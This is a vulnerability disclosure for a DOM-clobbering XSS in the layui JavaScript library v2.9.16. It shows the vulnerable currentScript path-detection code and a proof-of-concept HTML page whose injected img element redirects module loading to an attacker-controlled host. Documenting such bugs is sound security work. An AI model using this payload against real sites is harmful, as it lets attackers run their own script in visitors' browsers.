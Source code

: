 ## layui

### Meta

+ Library: layui
+ Stars: 29.5K
+ Version: v2.9.16
+ Fingerprint: `window.LAYUI_GLOBAL  !== undefined`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: CVE-2024-XXXXX
+ Status: Patched
+ Security Policy: Requested
+ Foundby: TheHulk

### Library

https://github.com/layui/layui

### Vulnerable Code Snippet

```javascript
var doc = win.document;
  var config = {
    modules: {}, // 模块物理路径
    status: {}, // 模块加载状态
    timeout: 10, // 符合规范的模块请求最长等待秒数
    event: {} // 模块自定义事件
  };

  var Layui = function(){
    this.v = '2.9.16'; // Layui 版本号
  };

  // 识别预先可能定义的指定全局对象
  var GLOBAL = win.LAYUI_GLOBAL || {};

  // 获取 layui 所在目录
  var getPath = function(){
    var jsPath = doc.currentScript ? doc.currentScript.src : function(){
      var js = doc.scripts;
      var last = js.length - 1;
      var src;
      for(var i = last; i > 0; i--){
        if(js[i].readyState === 'interactive'){
          src = js[i].src;
          break;
        }
      }
      return src || js[last].src;
    }();

    return config.dir = GLOBAL.dir || jsPath.substring(0, jsPath.lastIndexOf('/') + 1);
  }();
```

## PoC

```html
<!--Library-->
<link href="./layui.css" rel="stylesheet" />
<script src="./layui.js"></script>
<script>
  // Usage
  layui.use(function () {
    var layer = layui.layer;
    // Welcome
    layer.msg("Hello World", { icon: 6 });
  });
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```